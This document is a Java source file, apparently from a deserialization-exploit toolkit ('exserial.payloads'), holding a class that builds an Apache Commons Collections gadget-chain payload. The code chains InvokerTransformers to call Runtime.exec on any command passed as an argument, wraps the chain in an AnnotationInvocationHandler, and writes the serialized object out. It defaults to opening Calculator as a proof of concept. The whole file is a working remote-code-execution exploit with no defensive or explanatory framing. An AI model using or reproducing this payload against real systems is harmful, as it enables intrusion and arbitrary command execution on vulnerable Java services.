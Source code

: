 ```
package exserial.payloads;  

import java.io.ObjectOutputStream;  

import java.util.Map;
import java.util.HashMap;   

import java.lang.annotation.Target;
import java.lang.reflect.Constructor;   

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.map.TransformedMap;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer; 

import exserial.payloads.utils.Serializables;   

public class Commons1 { 

    public static Object getAnnotationInvocationHandler(String command) throws Exception {
        String[] execArgs = command.split(",");
        Transformer[] transforms = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[] {String[].class},
                        new Object[] {execArgs}
                )
        };
        Transformer transformerChain = new ChainedTransformer(transforms);
        Map tempMap = new HashMap();
        tempMap.put("value", "does't matter");
        Map exMap = TransformedMap.decorate(tempMap, null, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, exMap);    

        return instance;
    }   

    public static void main(String[] args) throws Exception {
        String command = (args.length != 0) ? args[0] : "/bin/sh,-c,open /Applications/Calculator.app"; 

        Object obj = getAnnotationInvocationHandler(command);
        ObjectOutputStream out = new ObjectOutputStream(System.out);
        out.writeObject(obj);
    }
}

```